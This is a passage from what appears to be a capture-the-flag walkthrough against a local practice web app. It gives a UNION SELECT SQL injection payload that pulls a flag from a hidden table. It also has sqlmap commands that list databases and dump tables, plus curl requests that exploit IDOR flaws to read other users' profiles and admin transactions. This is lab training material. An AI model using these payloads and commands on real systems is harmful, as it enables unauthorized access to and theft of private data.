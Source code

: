     *(Image placeholder: A screenshot of the login form filled with the SQLi payload, and the subsequent admin dashboard view.)*

#### **Step 2: Finding the Real Flag (Manual UNION Attack)**

This is the **Primary Objective**. We need to extract data from a hidden table called `system_flags`. We'll use a `UNION SELECT` attack. This requires knowing the number of columns in the original query. Through trial and error (using `ORDER BY`), we'd find there are 8 columns.

*   **Payload**: `x' UNION SELECT 1,2,3,flag_value,5,6,7,8 FROM system_flags-- `
*   **Action**:
    1.  Return to the `/login` page.
    2.  In the **Username** field, enter the payload above.
    3.  In the **Password** field, enter anything.
    4.  Click "Login".

*   **Result**: The application will throw an error, but the error message itself will contain the flag! The database tries to process our injected query, and the `flag_value` is returned and displayed on the screen. You should see:

    **`RAZZ{y0U_H@v3_f()UNd_$QL_!NJ3CT10N}`**

    This is the **REAL flag**. It could only be found by exploiting the SQLi vulnerability to extract data directly from the database, proving a complete system breach.

#### **Step 3: Automating with `sqlmap` (Professional Approach)**

In a real engagement, `sqlmap` automates this process.

1.  **Enumerate Databases**:
    `sqlmap -u "http://localhost:5000/login" --data="username=a&password=a" --dbs`
2.  **Enumerate Tables**:
    `sqlmap -u "http://localhost:5000/login" --data="username=a&password=a" -D main --tables`
3.  **Dump the Flag**:
    `sqlmap -u "http://localhost:5000/login" --data="username=a&password=a" -D main -T system_flags --dump`

### 4.2. Vulnerability: Insecure Direct Object Reference (IDOR)

Now we hunt for secondary vulnerabilities. IDOR allows us to access data belonging to other users.

*   **IDOR 1: Accessing User Profiles**
    *   **Endpoint**: `/profile/<user_id>`
    *   **Action**: While logged in as your test user, change the ID in the URL to another number (e.g., `1057`).
        `curl http://localhost:5000/profile/1057`
    *   **Result**: You can view the private profile information of another user.

*   **IDOR 2: Accessing Transaction Histories**
    *   **Endpoint**: `/account/<account_number>/transactions`
    *   **Action**: Guess a privileged account number, like the admin's (`ADM001`).
        `curl http://localhost:5000/account/ADM001/transactions`
    *   **Result**: A full list of the admin's financial transactions is exposed—a critical data leak.
